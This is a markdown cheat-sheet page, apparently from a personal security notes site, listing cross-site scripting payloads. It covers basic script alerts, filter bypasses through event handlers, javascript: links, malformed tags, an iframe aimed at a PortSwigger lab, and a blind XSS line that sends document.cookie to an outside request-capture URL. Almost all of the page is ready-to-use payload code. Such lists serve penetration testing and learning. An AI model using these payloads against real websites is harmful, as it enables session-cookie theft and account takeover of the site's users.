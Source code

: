 ```yaml
---
title: Cross-Site Scripting
description: Attacker injecting malicious code into a website and it's getting executed in the browser of other users.
sidebar: {"order": 1}
---
```

## Exploit
### Testing for XSS
Test for html injection first
```html
<h1>XSS</h1>
```

Fuzz to see what symbols can be used using [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Basic
```js
<script>alert(0)</script>
```

### Bypasses

Image on error:
```js
<img src=x onerror=print()>
```

href attribute:
```js
href="javascript:alert(1)"
```

fragments:
```js
<script src=//evil/?c=
```

trailing slashes:
```js
`</script/x>`
```

nested tags:
```js
<<h2>>
```

case sensitive:
```js
<IFRAME>
```

non-existent tag:
```js
<notreal onpointerrawupdate=alert(0)>
```
autofocus:
```js
x" onfocus=alert(1) autofocus tabindex=1>
```

onmouseover:
```js
"onmouseover="alert(1)
```

blind xss:
```js
><script>document.location='https://enp0qp6rqroqc.x.pipedream.net?c='+document.cookie</script>
```

iframe:
```js
<iframe src="https://0a9800c3034ba0e181fafc8700b00051.web-security-academy.net/#" onload=this.src+="%3Cimg%20src=x%20onerror=print()%3E"></iframe>
```

## Links
- [requestBin](https://public.requestbin.com/)
- [Ghetto XSS Cheatsheet](https://d3adend.org/xss/ghettoBypass)
